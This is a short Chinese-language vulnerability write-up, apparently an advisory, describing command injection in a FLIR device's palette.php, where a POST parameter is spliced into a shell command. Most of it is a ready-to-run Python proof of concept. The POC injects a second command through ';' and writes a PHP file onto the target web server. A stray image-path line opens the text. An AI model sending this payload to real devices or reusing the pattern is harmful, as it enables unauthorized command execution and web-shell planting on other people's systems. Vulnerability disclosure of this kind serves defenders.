 在 www 目录下 palette.php 程序接收 POST 方法请求，若存在 palette 参数，程序会将 palette 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/palette 拼接执行，若 palette 包含命令截断符，会造成命令注入。

![image-20221203214529751](.assets/image-20221203214529751.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):

    try:    
        target_url = url + "/palette.php"
        data = {
            'palette' : "1;  echo '<?php phpinfo(); ?>' > temp.php",
        }
        
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
        
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)

        print(response.text)

    except Exception as e:
        print(e)

if __name__ == '__main__':
    url = 'x.x.x.x'
    verify(url=url)
```
